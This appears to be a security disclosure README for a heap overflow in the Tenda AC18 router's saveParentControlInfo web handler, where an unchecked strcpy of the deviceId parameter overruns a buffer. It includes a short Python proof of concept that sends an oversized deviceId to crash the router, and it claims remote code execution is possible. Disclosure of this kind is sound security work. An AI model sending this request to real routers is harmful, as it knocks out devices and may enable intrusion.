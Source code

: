 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **heap overflow** vulnerability in function `saveParentControlInfo`.

In function `saveParentControlInfo` it reads user provided parameter `deviceId` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the heap-based buffer `ptr`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/saveParentControlInfo`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=" + "s" * 0x1000

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
